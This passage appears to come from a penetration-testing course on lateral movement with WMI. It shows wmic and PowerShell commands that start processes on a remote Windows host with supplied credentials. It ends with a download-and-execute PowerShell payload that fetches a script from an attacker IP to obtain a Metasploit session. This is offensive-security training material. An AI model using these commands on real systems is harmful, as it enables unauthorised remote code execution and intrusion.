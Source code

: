 In addition to querying information, WMI also allows for executing commands remotely. This capability is particularly useful for administrative tasks such as starting or stopping processes, running scripts, or changing system configurations without direct machine access. In our case, we can use it for lateral movement. Here is an example of using WMIC to create a new process on a remote machine:

```powershell-session
PS C:\Tools> wmic /node:172.20.0.52 process call create "notepad.exe"
Executing (Win32_Process)->Create()
Method execution successful.
Out Parameters:
instance of __PARAMETERS
{
        ProcessId = 700;
        ReturnValue = 0;
};
```

In this example, the WMIC command is used to remotely start `notepad.exe` on the computer with IP address `172.20.0.52`. The same task can be accomplished using PowerShell for more flexibility and integration with scripts:

```powershell-session
PS C:\Tools> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName 172.20.0.52
```

Additionally, we can also specify credentials to within `wmic` or PowerShell:

```powershell-session
PS C:\Tools> wmic /user:username /password:password /node:172.20.0.52 os get Caption,CSDVersion,OSArchitecture,Version
```


```powershell-session
PS C:\Tools> $credential = New-Object System.Management.Automation.PSCredential("username", (ConvertTo-SecureString "password" -AsPlainText -Force));
Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "notepad.exe" -ComputerName 172.20.0.52 -Credential $credential
```

We can try to use the same payload we used with `SharpRDP` to get a metasploit session using WMI:

```powershell-session
PS C:\Tools> Invoke-WmiMethod -Class Win32_Process -Name Create -ArgumentList "powershell IEX(New-Object Net.WebClient).DownloadString('http://10.10.14.207/s')" -ComputerName 172.20.0.52

__GENUS          : 2
__CLASS          : __PARAMETERS
__SUPERCLASS     :
__DYNASTY        : __PARAMETERS
__RELPATH        :
__PROPERTY_COUNT : 2
__DERIVATION     : {}
__SERVER         :
__NAMESPACE      :
__PATH           :
ProcessId        : 8084
ReturnValue      : 0
PSComputerName   :
```
